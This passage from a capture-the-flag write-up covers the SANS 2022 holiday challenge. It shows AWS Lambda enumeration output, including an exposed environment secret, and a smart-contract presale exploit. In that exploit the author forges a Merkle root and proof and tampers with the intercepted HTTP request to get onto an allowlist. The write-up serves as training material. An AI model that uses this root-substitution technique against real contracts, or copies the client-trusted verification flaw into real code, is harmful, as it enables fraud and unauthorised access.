                "Size": 32498,
                "StorageClass": "STANDARD",
                "Owner": {
                    "DisplayName": "grinchum",
                    "ID": "15f613452977255d09767b50ac4859adbb2883cd699efbabf12838fce47c5e60"
                }
                        },
            {
                "Key": "smogmachine_lambda_handler_qyJZcqvKOthRMgVrAJqq.py",
                "LastModified": "2022-09-26 16:31:33+00:00",
                "ETag": "\"fd5d6ab630691dfe56a3fc2fcfb68763\"",
                "Size": 5823,
                "StorageClass": "STANDARD",
                "Owner": {
                    "DisplayName": "grinchum",
                    "ID": "15f613452977255d09767b50ac4859adbb2883cd699efbabf12838fce47c5e60"
                }
            }
        ],
        "Name": "smogmachines3",
        "Prefix": "",
        "MaxKeys": 1000,
        "EncodingType": "url"
    }

.. code-block:: text

    The attached user policy provided you several Lambda privileges. Use the AWS CLI to list Lambda functions.
    The aws lambda command to list functions can be found here:
    https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/index.html

.. code-block:: console
    :hl_lines: 5

    elf@80c2de61d99b:~$ aws lambda list-functions
    {
        "Functions": [
            {
                "FunctionName": "smogmachine_lambda",
                "FunctionArn": "arn:aws:lambda:us-east-1:602123424321:function:smogmachine_lambda",
                "Runtime": "python3.9",
                "Role": "arn:aws:iam::602123424321:role/smogmachine_lambda",
                "Handler": "handler.lambda_handler",
                "CodeSize": 2126,
                "Description": "",
                "Timeout": 600,
                "MemorySize": 256,
                "LastModified": "2022-09-07T19:28:23.634+0000",
                "CodeSha256": "GFnsIZfgFNA1JZP3TgTI0tIavOpDLiYlg7oziWbtRsa=",
                "Version": "$LATEST",
                "VpcConfig": {
                    "SubnetIds": [
                        "subnet-8c80a9cb8b3fa5505"
                    ],
                    "SecurityGroupIds": [
                        "sg-b51a01f5b4711c95c"
                    ],
                    "VpcId": "vpc-85ea8596648f35e00"
                },
                "Environment": {
                    "Variables": {
                        "LAMBDASECRET": "975ceab170d61c75",
                        "LOCALMNTPOINT": "/mnt/smogmachine_files"
                    }
                },
                "TracingConfig": {
                    "Mode": "PassThrough"
                },
                "RevisionId": "7e198c3c-d4ea-48dd-9370-e5238e9ce06e",
                "FileSystemConfigs": [
                    {
                        "Arn": "arn:aws:elasticfilesystem:us-east-1:602123424321:access-point/fsap-db3277b03c6e975d2",
                        "LocalMountPath": "/mnt/smogmachine_files"
                    }
                ],
                "PackageType": "Zip",
                "Architectures": [
                    "x86_64"
                ],
                "EphemeralStorage": {
                    "Size": 512
                }
            }
        ]
    }

.. code-block:: text

    Lambda functions can have public URLs from which they are directly accessible.
    Use the AWS CLI to get the configuration containing the public URL of the Lambda function.
    The aws lambda command to get the function URL config can be found here:
    https://awscli.amazonaws.com/v2/documentation/api/latest/reference/lambda/index.html

We know from our previous command that the lambda function is named
:code:`smogmachine_lambda`.

.. code-block:: console

    elf@80c2de61d99b:~$ aws lambda get-function-url-config --function-name smogmachine_lambda
    {
        "FunctionUrl": "https://rxgnav37qmvqxtaksslw5vwwjm0suhwc.lambda-url.us-east-1.on.aws/",
        "FunctionArn": "arn:aws:lambda:us-east-1:602123424321:function:smogmachine_lambda",
        "AuthType": "AWS_IAM",
        "Cors": {
            "AllowCredentials": false,
            "AllowHeaders": [],
            "AllowMethods": [
                "GET",
                "POST"
            ],
            "AllowOrigins": [
                "*"
            ],
            "ExposeHeaders": [],
            "MaxAge": 0
        },
        "CreationTime": "2022-09-07T19:28:23.808713Z",
        "LastModifiedTime": "2022-09-07T19:28:23.808713Z"
    }

.. code-block:: text

    Great, you did it all - thank you!

This gives us our fourth ring, the Cloud Ring:

.. image:: /images/sans-christmas-challenge-2022/cloud_ring.png
    :alt: The Cloud Ring. It's a simple golden ring, like the one from Lord
        of the Rings, etched with clouds and wind lines.
    :align: center

.. image:: /images/sans-christmas-challenge-2022/sulfrod.png
    :alt: Sulfrod, same image as before.
    :align: center

*Sulfrod says*

    Ha! Now I have the ring!

    This computer stuff sure is easy if you just make someone do it for you.

    Wait.. the computer gave **you** the ring? Gah, whatever.

    This never happened, got it? Now beat it, nerd!

We go back our way only to find a distraught Grinchum:

.. image:: /images/sans-christmas-challenge-2022/smeagolmad3.png
    :alt: Grinchum, now red in the face.
    :align: center

*Grinchum says*

    🥺 *Four Preciouses - lost!*

    😫 *Noooo... grinchum..grinchum*

    😐 **..... naggy human doesn't only want coinses and hatses.**

    **...What...** 🤨 **has it got...**

    😠 **in its silly, little, badges!?**

    😧 **Stole them...** 😠 **You STOLE them!**

    😡 **Raaaargh!! We will make sure naggy human never takes our last
    Precious!**

Recover the Burning Ring of Fire
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Buy a Hat
---------

Down and down we go, where our mine canary can no longer breathe, until we meet
Wombley Cube:

.. image:: /images/sans-christmas-challenge-2022/wombleycube.png
    :alt: Wombley Cube is a green-skinned elf, with a white beard, a white
        T-Shirt, pink pants, black- and white-striped socks, and pink pointy
        elf shoes. He's wearing a purple Christmas hat.
    :align: center

*Wombley Cube says*

    Hey there! I'm Wombley Cube. It's so nice to see a friendly face.

    What's an elf doing all the way down here with all these sporcs, you ask?

    I'm selling snazzy, fancy-pants hats! You can buy them with Kringlecoin.

    *The reason I set up shop here is to gather intel on that shady Luigi.*

    *I'm a member of the STINC: Santa's Team of Intelligent Naughty Catchers.*

    *He and his gang are up to no good, I'm sure of it. We've got a real Code
    Brown here.*

    *Purchase a hat so we look inconspicuous, and I'll clue you in on what we
    think they're scheming.*

    Of course, have a look at my inventory!

    *Oh, and if you haven't noticed, I've slipped hints for defeating these
    Sporcs around the tunnels!*

    *Keep your eyes open, and you'll find all five of them. Wait, maybe it's
    six?*

An undercover elf among the Sporcs! The hints he talks about are chests
lying around the tunnels, but most of them only contain KringleCoins. Luckily
for us, we can use those to buy a hat from Wombley.

We click on his hat-vending machine, and settle on this fine gray cowboy hat:

.. image:: /images/sans-christmas-challenge-2022/chosen_hat.png
    :alt: Our chosen hat, a gray cowboy hat. The vending machine gives us
        instruction as to how to buy it: "To purchase this hat you must:
        Use a KTM to pre-approve a 10 KC transaction to the wallet address:
        hexadecimal value of the address.
        Return to this kiosk and use Hat ID: 398 to complete your purchase.
    :align: center

We go to a KTC (KringleCoin Teller Machine) and pre-approve our 10 KringleCoin
transaction:

.. image:: /images/sans-christmas-challenge-2022/hat_pre_approval.png
    :alt: The KTM interface where we're buying our hat. There are three fields.
        The first one is the destination wallet address, filled with the value
        given by the vending machine. The second is the amount of the
        transaction, which is 10 KC. The last one is my censored private key.
    :align: center

We now go back to the hat-vending machine to claim our hat:

.. image:: /images/sans-christmas-challenge-2022/hat_approved_transaction.png
    :alt: The vending machine interface. There are two fields. The first one
        is filled with my wallet address, and the second one with the ID of the
        desired hat (in our case 398 for the gray cowboy hat). Below the two
        fields, we see "Transaction succeeded! Transaction ID: large
        hexadecimal value. Block 76303.
    :align: center

I can now wear my cool hat everywhere:

.. image:: /images/sans-christmas-challenge-2022/useless_avatar_with_hat.png
    :alt: My avatar wearing the gray cowboy hat.
    :align: center

Blockchain Divination
---------------------

.. image:: /images/sans-christmas-challenge-2022/wombleycube.png
    :alt: Wombley Cube, same image as before.
    :align: center

*Wombley Cube says*

    Nice hat! I think Ed Skoudis would say the same. It looks great on you.

    *So, here's what we've uncovered so far. Keep this confidential, ok?*

    *Earlier, I overheard that disgruntled customer in the office saying he
    wanted in on the "rug pull".*

    *If our suspicions are correct, that's why the sporcs want an invite to the
    presale so badly.*

    *Once the* "`Bored Sporc Rowboat Society <https://en.wikipedia.org/wiki/Bored_Ape>`__"
    *NFTs officially go on sale, the sporcs will upsell them.*

    *After most of the NFTs are purchased by unwitting victims, the Sporcs are
    going to take the money and abandon the project.*

    *Mission #1 is to find a way to get on that presale list to confirm our
    suspicions and thwart their dastardly scheme!*

    *We also think there's a Ring hidden there, so drop Mission #2 on them and
    rescue that ring!*

    Thank you for your business, dear customer!

The Sporcs are running an NFT scam, schocking. Anyway, we're asked to find the
address of the KringleCoin smart contract on the blockchain.

The Blockchain Explorer can be used to analyze the different blocks of the
blockchain. For example, we can look at block #76303, which is the block with
my transaction to buy a hat:

.. image:: /images/sans-christmas-challenge-2022/blockchain_explorer_block_76303.png
    :alt: The Blockchain Explorer showing block #76303. We can see that it's a
        transaction block with a value of 10 and a comment "Purchased HatID
        #398!"
    :align: center

Let's look at the first block on the blockchain:

.. image:: /images/sans-christmas-challenge-2022/blockchain_explorer_block_1.png
    :alt: The Blockchain Explorer showing block #1. This says "This transaction
        creates a contract. KringleCoin". The address of the contract is then
        given.
    :align: center

The address of the KringleCoin contract is :code:`0xc27A2D3DE339Ce353c0eFBa32e948a88F1C86554`.

Exploit a Smart Contract
------------------------

Here's the big one, we must now find a way to get on the presale list by
exploiting a vulnerability in the Bored Sporc Rowboat Society smart contract.

By taking a look at `the BSRC website <https://boredsporcrowboatsociety.com/>`__,
we learn more about the pre-sale list:

    We are currently in "pre-sale" mode, which means that the only folks who
    can buy are our best buds who made it on the list (well, actually, the
    Merkle Tree).

So the pre-sale list is stored in the form of a `Merkle tree
<https://en.wikipedia.org/wiki/Merkle_tree>`__. Now I don't know squat about
smart contracts or Merkle tree. Luckily for us, Prof. Qwerty Petabyte is back
with a `KringleCon talk on the subject <https://www.youtube.com/watch?v=Qt_RWBq63S8>`__.
There's also a `new repository <https://github.com/QPetabyte/Merkle_Trees>`__
on their Github profile, which should help any Merkle tree shenanigans we'll
get into.

I recommend listening to the talk and reading the repository's `README
<https://github.com/QPetabyte/Merkle_Trees/blob/main/README.md>`__ as well as
the `Wikipedia article <https://en.wikipedia.org/wiki/Merkle_tree>`__ on
Merkle trees to fully understand how they work.

Long story short, people on the BSRS pre-sale list are given proof values
that they can send to the web site along with their wallet address. The smart
contract will compute the intermediary values until it gets to the root value,
and then compare it to the root value it has stored...

...or does it? In Prof. Petabyte's README, we can read:

    The only value the NFT producer needs to keep in their blockchain code is
    the root value itself! Because keeping anything stored on the blockchain is
    expensive, this is a huge benefit! Of course, the root mustn't be able to
    be altered, which is why keeping it IN the smart contract on the blockchain
    is what smart developers do.

Maybe the BSRS creators made a mistake and did not store the root on the
blockchain? If we use the Blockchain Explorer, we can see that block #2
contains the contract tied to the BSRS NFT:

.. image:: /images/sans-christmas-challenge-2022/blockchain_explorer_block_2.png
    :alt: The Blockchain Explorer showing block #2. This says "This transaction
        creates a contract. BSRS_nft".
    :align: center

We can get the `Solidity <https://en.wikipedia.org/wiki/Solidity>`__ code of
the BSRS NFT contract directly from the Blockchain Explorer. You can download
it `here </docs/sans-christmas-challenge-2022/BSRS_nft.sol>`__.

By looking around, we find the :code:`verify` function:

.. code-block:: solidity

    function verify(bytes32 leaf, bytes32 _root, bytes32[] memory proof) public view returns (bool) {
        bytes32 computedHash = leaf;
        for (uint i = 0; i < proof.length; i++) {
          bytes32 proofElement = proof[i];
          if (computedHash <= proofElement) {
            computedHash = keccak256(abi.encodePacked(computedHash, proofElement));
          } else {
            computedHash = keccak256(abi.encodePacked(proofElement, computedHash));
          }
        }
        return computedHash == _root;
    }

It looks like the :code:`verify` function takes a :code:`_root` parameter. It
sure does seem that the root value is *not* stored on the blockchain. This can
be confirmed by using the `pre-sale form <https://boredsporcrowboatsociety.com/presale.html>`__.
This form loads a `JavaScript file <https://boredsporcrowboatsociety.com/bsrs.js>`__:

.. code-block:: javascript
    :hl_lines: 18

    function do_presale(){
        if(!guid){
            alert("You need to enter this site from the terminal at the North Pole, not directly. If are doing this directly, you risk not getting credit for completing the challenge.");
        } else {
            var resp = document.getElementById("response");
            var ovr = document.getElementById('overlay');
            resp.innerHTML = "";
            var cb = document.getElementById("validate").checked;
            var val = 'false'
            if(cb){
                val = 'true'
            } else {
                ovr.style.display = 'block';
                in_trans = true;
            };
            var address = document.getElementById("wa").value;
            var proof = document.getElementById('proof').value;
            var root = '0x52cfdfdcba8efebabd9ecc2c60e6f482ab30bdc6acf8f9bd0600de83701e15f1';
            var xhr = new XMLHttpRequest();

            xhr.open('Post', 'cgi-bin/presale', true);
            xhr.setRequestHeader('Content-Type', 'application/json');
            xhr.onreadystatechange = function(){
                if(xhr.readyState === 4){
                    var jsonResponse = JSON.parse(xhr.response);
                    ovr.style.display = 'none';
                    in_trans = false;
                    resp.innerHTML = jsonResponse.Response;
                };
            };
            xhr.send(JSON.stringify({"WalletID": address, "Root": root, "Proof": proof, "Validate": val, "Session": guid}));
        };
    }

They sure messed up. We can now build our own Merkle tree with our wallet
address, compute our proof and root values, and pretend we're on the pre-sale
list. This is where `Prof. Petabyte's repository <https://github.com/QPetabyte/Merkle_Trees>`__
will come useful.

We clone the repo, create a :code:`venv`, and install the requirements:

.. code-block:: console

    $ git clone https://github.com/QPetabyte/Merkle_Trees
    $ python3 -m venv ~/venv/merkle
    $ source ~/venv/merkle/bin/activate
    $ pip3 install wheel
    $ pip3 install -r ./Merkle_Trees/requirements.txt

Now, we can edit the file to put build our Merkle tree with our wallet address.
We just modify the :code:`allowlist` variable:

.. code-block:: python

    allowlist = ['0x129c7E7e786120E3DCD29D4c2ad0d0001616fad2','0x0000000000000000000000000000000000000000']

Now, let's run the script:

.. code-block:: console

    $ python3 merkle_tree.py
    Root: 0x5fb0f1ec0a42dc34152e3937c295c5e2ad1e105ce5bef576a33d47c3bbe3f42e
    Proof: ['0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a']

We can now pretend to be on the pre-sale list. We use the pre-sale verification
form, and intercept it using Burp to modify the value of the root parameter:

.. code-block:: http

    POST /cgi-bin/presale HTTP/1.1
    Host: boredsporcrowboatsociety.com
    Cookie: GCLB="411e2170d1ac26e8"
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: */*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    Content-Length: 277
    Origin: https://boredsporcrowboatsociety.com
    Referer: https://boredsporcrowboatsociety.com/presale.html?&challenge=bsrs&username=useless&id=0a6556c7-ff84-410c-b1db-59fb1bec0928&area=level5&location=14,15&tokens=
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    {"WalletID":"0x129c7E7e786120E3DCD29D4c2ad0d0001616fad2","Root":"0x5fb0f1ec0a42dc34152e3937c295c5e2ad1e105ce5bef576a33d47c3bbe3f42e","Proof":"0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a","Validate":"true","Session":"0a6556c7-ff84-410c-b1db-59fb1bec0928"}

.. code-block:: http
    :hl_lines: 8

    HTTP/1.1 200 OK
    Server: nginx/1.23.2
    Date: Tue, 20 Dec 2022 15:29:41 GMT
    Content-Type: application/json
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {"Response": "You're on the list and good to go! Now... BUY A SPORC!"}

Nice! The contract believes we're on the list. Now we can buy a Sporc NFT
by sending 100 KC to the SBRS creators' wallet:

.. image:: /images/sans-christmas-challenge-2022/bsrs_nft_approved_transaction.png
    :alt: The KCTM interface. There are three fields. The first one is filled
        with the wallet address of BSRS. The second one is the amount of the
        transaction, 100 KC. The third one is my censored private key. The
        interface then reads "You have successfully approved the transaction!"
    :align: center

Now that we sent 100 KC, let's get our BSRS NFT using the previous form:

.. code-block:: http

    POST /cgi-bin/presale HTTP/1.1
    Host: boredsporcrowboatsociety.com
    Cookie: GCLB="411e2170d1ac26e8"
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: */*
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/json
    Content-Length: 278
    Origin: https://boredsporcrowboatsociety.com
    Referer: https://boredsporcrowboatsociety.com/presale.html?&challenge=bsrs&username=useless&id=0a6556c7-ff84-410c-b1db-59fb1bec0928&area=level5&location=14,15&tokens=
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    {"WalletID":"0x129c7E7e786120E3DCD29D4c2ad0d0001616fad2","Root":"0x5fb0f1ec0a42dc34152e3937c295c5e2ad1e105ce5bef576a33d47c3bbe3f42e","Proof":"0x5380c7b7ae81a58eb98d9c78de4a1fd7fd9535fc953ed2be602daaa41767312a","Validate":"false","Session":"0a6556c7-ff84-410c-b1db-59fb1bec0928"}

.. code-block:: http
    :hl_lines: 8

    HTTP/1.1 200 OK
    Server: nginx/1.23.2
    Date: Tue, 20 Dec 2022 15:34:11 GMT
    Content-Type: application/json
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {"Response": "Success! You are now the proud owner of BSRS Token #000272. You can find more information at https://boredsporcrowboatsociety.com/TOKENS/BSRS272, or check it out in the gallery!<br>Transaction: 0xe1351d421455dd4ebb5712194c8f14e0b2c6e1680f2b7f770eb553393d202c89, Block: 76995<br><br>Remember: Just like we planned, tell everyone you know to <u><em>BUY A BoredSporc</em></u>.<br>When general sales start, and the humans start buying them up, the prices will skyrocket, and we all sell at once!<br><br>The market will tank, but we'll all be rich!!!"}

Hurray, I now have the BSRS NFT #272. Here's how it looks like:

.. image:: /images/sans-christmas-challenge-2022/BSRS272.png
    :alt: My BSRS NFT. It's a Sporc's head with an eyepatch, a blue eye, pink
        glossy lipstick, and protruding bottom teeth.
    :align: center

It's... yeah. Anyway, NFTs and cryptocoins are scams, the only thing we are
interested in is finding our rings.

And here it is, our fifth and final ring, the Burning Ring of Fire:

.. image:: /images/sans-christmas-challenge-2022/brof.png
    :alt: The Tolkien Ring. It's a simple golden ring, like the one from Lord
        of the Rings, etched with red flames.
    :align: center

.. image:: /images/sans-christmas-challenge-2022/wombleycube.png
    :alt: Wombley Cube, same image as before.
    :align: center

*Wombley Cube says*

    You've done your duty, agent.

    Excellent work, especially on Mission #2! I'll log this entry back at STINC
    HQ.

    Keep doing work like this, and you'll be sitting on the STINC throne,
    leading the agency someday.

    Nobody will know of the job you did here today, but the STINC thanks you.

    I'm just being dramatic, **everyone's** gonna know how awesome you are!

We can see Grinchum, but he looks... conflicted:

.. image:: /images/sans-christmas-challenge-2022/smeagol.png
    :alt: Grinchum as we've first met him
    :align: center

*Grinchum says*

    😠 *We wants them... we needs them... Must.. have.. the Preciouses.*

    *They stole them from us, sneaky little humanses.*

    🙂 *No, not the humanses, they're my friends.*

    😏 *You don't have any friends. NOBODY likes YOU. You're a liar, and a thief, and a.... grriiiiiiinch.*

    😢 *Go away... we don't need you anymore. The humanses protect us now.*

    😠 *Go away? I protected us. The preciouses are safe because of ME!*

    🙂 *Leave now, and never.. come back.* 😃 *Leave now, and never.. come back!*

    😁 *LEAVE NOW, AND NEVER.. COME BACK!😬*

    **Friendly human, please go to jolly human's castle! Go on, we will meet you there!**

Conclusion
~~~~~~~~~~

With the five golden rings safely recovered, we can finally enter Santa's
castle:

.. image:: /images/sans-christmas-challenge-2022/santa.png
    :alt: Santa Claus in his usual attire.
    :align: center

*Santa says*

    Congratulations! You have foiled Grinchum's foul plan and recovered the
    Golden Rings!

    And by the magic of the rings, Grinchum has been restored back to his true,
    merry self: Smilegol!

    You see, all Flobbits are drawn to the Rings, but somehow, Smilegol was
    able to snatch them from my castle.

    To anyone but me, their allure becomes irresistable the more Rings someone
    possesses.

    That allure eventually tarnishes the holder's Holiday Spirit, which is
    about giving, not possesing.

    That's exactly what happened to Smilegol; that selfishness morphed him into
    Grinchum.

    But thanks to you, Grinchum is no more, and the holiday season is saved!

    Ho ho ho, happy holidays!

Next to Santa, we can see our new Flobbit friend, Smilegol:

.. image:: /images/sans-christmas-challenge-2022/smilegol.png
    :alt: Smilegol is a Flobbit wearing a white shirt, a yellow vest, a green
        coat, and black trousers. He has hari bare feet and dark hair. He is
        smiling and looks at peace.
    :align: center

*Smilegol says*

    I must give you my most thankful of thanks, and most sorry of sorries.

    I'm not sure what happened, but I just couldn't resist the Rings' call.

    But once you returned the Rings to Santa, I was no longer so spellbound.

    I could think clearly again, so I shouted off that awful persona.

    And that grouchy Grinchum was gone for good. Now, I can be me again, just
    in time for gift giving.

    This is a lesson I won't soon forget, and I certainly won't forget you.

    I wish you smooth sailing on wherever your next voyage takes you!

Oh dear Flobbits, I don't know half of as well as I should like, and I like
less than half of you half as well as you deserve.

Once again, thanks to the SANS team for this amazing Christmas Challenge!
Exploiting the CI/CD vulnerability is a great exercise for real world
engagement.

See you next year!

